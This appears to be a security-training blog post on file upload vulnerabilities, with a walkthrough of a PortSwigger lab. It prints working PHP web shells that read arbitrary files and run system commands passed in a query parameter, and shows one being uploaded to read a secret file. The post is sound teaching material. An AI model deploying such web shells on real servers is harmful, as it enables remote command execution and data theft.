 ```yaml
---
title: PortSwigger SSVs - File upload vulnerabilities
date: 2023-12-20
categories: [Training, PortSwigger]
tags: [portswigger, server-side-vulnerabilities, file-upload-vulnerabilities]
img_path: /assets/portswigger/server-side/file_upload
published: true
---
```


## What are file upload vulnerabilities?

**File upload vulnerabilities** are when a web server allows users to upload files to its filesystem without sufficiently validating things like their name, type, contents, or size. As a result, the user can upload arbitrary and potentially dangerous files.

Developers implement what they believe to be robust validation that is either inherently flawed or can be easily bypassed. For example, they may attempt to **blacking dangerous file types**, but fail to account for parsing discrepancies when checking the file extensions, or miss more obscure file types altogether. In other cases, the website may attempt to **check the file type by verifying properties that can be easily manipulated** by an attacker. Ultimately, even **robust validation measures may be applied inconsistenly** across the network of hosts and directories that form the website, resulting in discrepancies that can be exploited.

## Exploiting unrestricted file uploads to deploy a web shell

For a security perspective, the worst possible scenario is when a website allows you to upload server-side script, such as PHP, Java, Python, etc., and is also configured to execute them as code.

> _A **web shell** is a malicious script that enables an attacker to execute arbitrary commands on a remote web server simply by sending HTTP requests to the right endpoint._

If we are able to upload a web shell, we effectively have full control over the server. For example, the following PHP one-liner could be used to read arbitrary files from the server's filesystem:

```PHP
<?php echo file_get_contents('/path/to/target/file'); ?>
```

Once uploaded, sending a request for this malicious file will return the target file's contents in response. 

A more versatile web shell may look like this:

```php
<?php echo system($_GET['command']); ?>
```

This script enables us to pass an arbitrary system command via a query parameter as follows: `GET /example/exploit.php?command=id HTTP/1.1`.

### Lab: Remote code execution via web shell upload

**Objective**:  _This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem. To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner. You can log in to your own account using the following credentials: `wiener:peter`._

1. Upon logging in, we can see an upload functionality:

    ![](lab1_upload.png)

2. We notice that this functionality is intended for uploading images, so let's enable Image capturing on Burp:

    ![](lab1_filters.png)

3. We will upload a normal picture and examine how the upload process works:

    ![](lab1_pic_upload.png)

    ![](lab1_pic_uploaded.png)

    ![](lab1_files_dir.png)

4. We can see that there is a GET request associated with the uploaded image which saves it under `/files/avatars/`. We can use this URL to access the image directly:

    ![](lab1_image.png)

5. Now we know how the upload files can be accessed, we can upload a webshell, get the contents of the required file, and submit our solution:

    ```shell
    $ sudo chmod +x webshell.php

    $ cat webshell.php
    <?php echo file_get_contents('/home/carlos/secret'); ?>

    $ ls -l webshell.php
    -rwxr-xr-x 1 root root 56 Dec 20 14:49 webshell.php
    ```

    ![](lab1_webshell_upload.png)

    ![](lab1_content.png)

    ![](lab1_solved.png)

## Resources

- [Server-side vulnerabilities](https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice).
- Relate practice: [DVWA File Upload](https://cspanias.github.io/posts/DVWA-File-Upload/).